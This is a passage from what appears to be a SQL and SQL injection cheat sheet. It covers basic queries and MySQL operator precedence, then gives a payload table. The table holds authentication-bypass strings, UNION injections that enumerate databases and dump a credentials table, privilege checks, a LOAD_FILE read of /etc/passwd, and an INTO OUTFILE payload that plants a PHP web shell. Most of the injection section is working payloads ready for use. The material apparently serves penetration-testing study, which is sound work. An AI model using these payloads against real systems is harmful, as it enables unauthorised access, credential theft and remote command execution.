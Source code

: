 | `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## 23. MySQL Operator Precedence

-   Division (`/`), Multiplication (`*`), and Modulus (`%`)
-   Addition (`+`) and Subtraction (`-`)
-   Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
-   NOT (`!`)
-   AND (`&&`)
-   OR (`||`)

## 24. SQL Injection

| **Payload** | **Description** |
| --- | --- |
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |
